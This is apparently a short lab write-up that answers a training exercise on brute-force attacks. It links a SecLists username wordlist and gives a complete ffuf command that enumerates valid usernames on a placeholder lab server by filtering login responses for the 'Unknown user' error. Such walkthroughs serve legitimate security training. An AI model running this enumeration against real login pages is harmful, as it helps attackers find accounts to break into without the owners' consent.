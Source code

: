 # Brute-Force Attacks

### Enumerate a valid user on the web application. Provide the username as the answer.

To complete this assessment we need the SecLists usernames wordlist and a simple ffuf command to brute-force the an application username.

**Step 1 -** Download the SecLists wordlist:

* [xato-net-10-million-usernames.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames.txt)

**Step 2 -** Enumerate with ffuf:

* {% code overflow="wrap" %}
  ```bash
  ffuf -w xato-net-10-million-usernames.txt -u http://SERVER_IP:SERVER_PORT/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=random" -fr "Unknown user"
  ```
  {% endcode %}

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

After a few seconds we got the username!
